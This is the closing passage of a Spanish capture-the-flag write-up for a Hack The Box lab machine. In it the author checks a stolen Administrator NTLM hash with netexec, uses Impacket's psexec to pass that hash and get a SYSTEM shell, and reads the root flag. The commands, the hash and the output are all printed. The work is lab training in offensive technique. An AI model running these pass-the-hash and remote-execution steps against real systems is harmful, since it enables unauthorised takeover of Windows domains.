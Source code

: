 Ahora con `netexec` podemos comprobar que el hash es válido y todo ha salido bien.
```console
$ nxc smb 10.129.69.107 -u 'Administrator' -H 'aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341'
SMB         10.129.69.107   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.69.107   445    CICADA-DC        [+] cicada.htb\Administrator:2b87e7c93a3e8a0ea4a581937016f341 (Pwn3d!)
```

Y como paso final, con `psexec` podemos conseguir una consola como `nt authority\system` en la máquina víctima.

```console
$ psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341' Administrator@cicada.htb
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] Requesting shares on cicada.htb.....
[*] Found writable share ADMIN$
[*] Uploading file JWGaSBoD.exe
[*] Opening SVCManager on cicada.htb.....
[*] Creating service RppH on cicada.htb.....
[*] Starting service RppH.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2700]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Podemos ver la flag de `root`
```console
C:\Users\Administrator\Desktop> type root.txt
c2aa205baa167...
```

¡Y ya estaría!

Happy Hacking! 🚀